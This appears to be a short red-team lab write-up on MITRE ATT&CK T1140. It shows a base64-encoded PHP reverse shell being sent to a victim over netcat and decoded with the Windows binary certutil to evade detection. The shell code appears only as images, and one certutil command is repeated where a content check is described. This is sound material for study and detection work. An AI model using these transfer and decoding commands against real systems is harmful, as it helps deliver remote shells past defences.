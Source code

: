 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% tabs %}
{% tab title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endtab %}
{% endtabs %}

Once the file is received on the victim, let's check its contents:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endtab %}
{% endtabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

